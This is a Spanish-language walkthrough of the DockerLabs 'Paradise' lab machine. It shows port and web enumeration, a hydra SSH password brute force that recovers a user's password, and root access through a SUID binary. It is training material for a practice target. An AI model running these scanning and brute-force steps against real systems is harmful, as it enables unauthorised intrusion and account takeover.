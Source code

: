 #MAQUINA #DOCKERLABS #FACIL
<hr>

# RECONOCIMIENTO

Vamos a resolver **Paradise** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 09:36 CET
Initiating ARP Ping Scan at 09:36
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 09:36, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:36
Scanning 172.17.0.2 [65535 ports]
Discovered open port 445/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 139/tcp on 172.17.0.2
Completed SYN Stealth Scan at 09:36, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-10 09:36:35 CET for 1s
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 64
80/tcp  open  http         syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** , puerto **139(SMB)** , puerto **445(SMB)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80,139,445 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 09:38 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000013s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 a1:bc:79:1a:34:68:43:d5:f4:d8:65:76:4e:b4:6d:b1 (DSA)
|   2048 38:68:b6:3b:a3:b2:c9:39:a3:d5:f9:97:a9:5f:b3:ab (RSA)
|   256 d2:e2:87:58:d0:20:9b:d3:fe:f8:79:e3:23:4b:df:ee (ECDSA)
|_  256 b7:38:8d:32:93:ec:4f:11:17:9d:86:3c:df:53:67:9a (ED25519)
80/tcp  open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Andys's House
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: PARADISE)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: PARADISE)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: UBUNTU; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-12-10T08:38:31
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: 0c5620625dcc
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: 0c5620625dcc
|_  System time: 2024-12-10T08:38:29+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.57 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 09:38 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
| http-enum: 
|   /login.php: Possible admin folder
|_  /img/: Potentially interesting directory w/ listing on 'apache/2.4.7 (ubuntu)'
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.
## HTTP (80)

Al revisar la web que hay en el puerto 80, vemos con **gobuster**:

   ```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,js,txt,png,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 282]
/index.html           (Status: 200) [Size: 950]
/img                  (Status: 301) [Size: 305] [--> http://172.17.0.2/img/]
/login.php            (Status: 200) [Size: 1696]
/.php                 (Status: 403) [Size: 281]
/galery.html          (Status: 200) [Size: 2369]
/booking.html         (Status: 200) [Size: 2058]
/.php                 (Status: 403) [Size: 281]
/.html                (Status: 403) [Size: 282]
/server-status        (Status: 403) [Size: 290]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```

Posible usuario -> **andy**
En gallery hay un comentario -> **ZXN0b2VzdW5zZWNyZXRvCg== -> estoesunsecreto(base64)**

# EXPLOTACION

Probamos a acceder vía ssh y ver el smb pero no hay nada interesante.

Vemos si **estoesunsecreto** es una carpeta de la web. Asi es , hay un mensaje para **lucas**:

   ```bash
   
REMEMBER TO CHANGE YOUR PASSWORD ACCOUNT, BECAUSE YOUR PASSWORD IS DEBIL AND THE HACKERS CAN FIND USING B.F.

```

Usamos **hydra** para intentar sacar su contraseña:

   ```bash
   
hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-10 09:54:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: lucas   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-10 09:54:13


```
**usuario : lucas**
**contraseña: chocolate**

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUID:
   ```bash
lucas@0c5620625dcc:/usr/local/bin$ find / -perm -4000 2>/dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/umount
/bin/mount
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/local/bin/privileged_exec
/usr/local/bin/backup.sh


```

Vemos **/usr/local/bin/privileged_exec** con permisos SUID :
   ```bash
   
lucas@0c5620625dcc:/usr/local/bin$ ./privileged_exec 
Running with effective UID: 0
root@0c5620625dcc:/usr/local/bin# whoami
root
root@0c5620625dcc:/usr/local/bin# 

```

**YA ESTAMOS COMO ROOT.**